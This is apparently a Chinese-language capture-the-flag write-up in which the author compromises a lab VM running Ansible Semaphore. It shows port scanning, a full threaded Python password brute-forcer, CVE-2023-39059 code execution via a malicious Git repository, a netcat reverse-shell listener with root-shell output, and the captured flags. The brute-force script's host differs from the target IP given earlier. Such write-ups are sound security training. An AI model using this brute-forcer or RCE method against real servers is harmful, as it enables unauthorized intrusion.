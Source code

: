 ![image-20250806132045628](http://7r1UMPHK.github.io/image/20250806132045831.webp)

# **一、信息收集**

## 1. 主机与端口发现

使用 `arp-scan` 和 `nmap` 在本地网络进行扫描，发现目标主机IP地址为 `192.168.205.129`，并确认其开放了 22 (SSH), 80 (HTTP) 和 3000 (HTTP) 端口。

**主机发现:**

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
...
192.168.205.129 08:00:27:43:d1:3f       PCS Systemtechnik GmbH
...
```

**端口扫描:**

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p- 192.168.205.129
...
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
...
```

# 2. Web服务侦察

*   **80端口**: 运行一个名为 "Maze Security" 的静态公司网站。目录扫描发现 `index.php`，但与主页内容相同，未发现明显漏洞。
*   **3000端口**: 运行一个Web应用，页面标题为 "Dashboard - Semaphore UI"。这是一个关键线索，表明目标正在使用 Ansible Semaphore。

# **二、漏洞发现与利用**

## 1. 版本识别与CVE发现

对3000端口的Web应用进行深入分析，在其加载的JavaScript文件 `chunk-vendors.54e1419.js` 中，发现了明确的版本信息：**Ansible Semaphore v2.7.2**。

针对该特定版本进行漏洞搜索，迅速定位到一个已公开的严重漏洞：**CVE-2023-39059**。

*   **漏洞类型**: 远程代码执行 (RCE)
*   **影响版本**: v2.8.90 及更早版本
*   **攻击向量**: 攻击者可以通过向任务的 "Extra Variables" (额外变量) 参数注入恶意的 `ansible-playbook` 负载来执行任意代码。
*   **利用前提**: 需要一个低权限的普通用户账户。

## 2. 初始访问 (暴力破解)

根据漏洞信息，首要目标是获取一个有效的用户凭据。使用自定义的Python脚本，结合常见用户名和密码字典，对 `/api/auth/login` 接口进行暴力破解攻击。

```python
import requests
import threading
import queue
import sys

t = queue.Queue()
r = requests.Session()
h = {
    "Host": "192.168.205.252:3000",
    "User-Agent": "Mozilla/5.0",
    "Accept": "application/json, text/plain, */*",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/json",
    "Origin": "http://192.168.205.252:3000",
    "Connection": "keep-alive",
    "Referer": "http://192.168.205.252:3000/auth/login"
}

found = False
found_lock = threading.Lock()

def l(u, p):
    global found
    if found:
        return
    try:
        b = f'{{"auth":"{u}","password":"{p}"}}'.encode()
        x = r.post("http://192.168.205.252:3000/api/auth/login", data=b, headers=h, timeout=5)
        status = x.status_code
        if status != 401:
            with found_lock:
                if not found:
                    found = True
                    print(f"\n{u}:{p}")
                    print(f"{u}:{p} | {status} | {len(x.content)}")
                    # 停止所有线程
                    for _ in range(20):
                        t.put(None)
        else:
            print(f"{u}:{p} | 401")
    except Exception as e:
        print(f"{u}:{p} | ERR")

def w():
    while True:
        job = t.get()
        if job is None or found:
            t.task_done()
            break
        l(*job)
        t.task_done()

def m():
    th = []
    for _ in range(20):
        x = threading.Thread(target=w)
        x.start()
        th.append(x)

    with open("user", "r") as uf:
        users = [line.strip() for line in uf if line.strip()]
    with open("rockyou.txt", "r", encoding="latin1") as pf:
        for p in pf:
            p = p.strip()
            if not p or found:
                continue
            for u in users:
                if found:
                    break
                t.put((u, p))
            if found:
                break

    t.join()

    for x in th:
        x.join()

if __name__ == "__main__":
    m()
```

经过尝试，成功爆破出一组凭据：

```
[+] 成功: root:password123
状态码: 204, 响应长度: 0
```

## 3. 远程代码执行 (RCE)

使用 `root:password123` 凭据成功登录到 Ansible Semaphore UI。

### 3.1 障碍分析

在UI中发现一个名为 `test` 的预置任务。直接尝试运行该任务失败。查看任务日志发现，任务在执行Playbook之前因无法克隆Git仓库而失败，错误信息为 `Failed updating repository: exit status 128`。这意味着他配置的仓库有问题。

### 3.2 绕过障碍并执行Payload

为了使任务能够继续执行到触发漏洞的阶段，需要解决Git仓库克隆失败的问题。采取以下步骤：

1. **创建恶意仓库**: 在GitHub上创建一个公开的仓库，其中包含一个名为 `test` 的文件，文件内容为我们的反弹shell命令。

   ![image-20250806131556828](http://7r1UMPHK.github.io/image/20250806131557125.webp)

2. **配置Semaphore仓库**: 在Semaphore UI的 **仓库 (Repositories)** 设置中，编辑 `test` 仓库，将其URL修改为我们创建的恶意GitHub仓库地址 (`https://github.com/xxxx/test.git`)。

3. **设置监听器**: 在攻击机 (Kali) 上开启 `netcat` 监听，准备接收反弹shell。

   ```bash
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
   └─$ nc -lvnp 8888
   ```

4. **执行任务**: 回到任务模板页面，重新运行 `test` 任务。这次，仓库克隆成功，任务继续执行，从而触发了我们预设在 `test` 文件中的反弹shell命令。

成功在本地 `netcat` 监听器上接收到来自目标服务器的 `root` 权限反弹shell。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.129] 53826
bash: cannot set terminal process group (348): Inappropriate ioctl for device
bash: no job control in this shell
root@Team:~/repository_1_template_1# id
uid=0(root) gid=0(root) groups=0(root)
```

# **三、夺取旗帜**

获取 `root` shell后，直接读取用户和根目录下的旗帜文件。

```bash
root@Team:~/repository_1_template_1# cat /root/root.txt /home/ll104567/user.txt
flag{root-cf768ad5a2fbffcf22d79bdb3feac305}
flag{user-f1d1d471045542b64f3fff665b42035a}
```
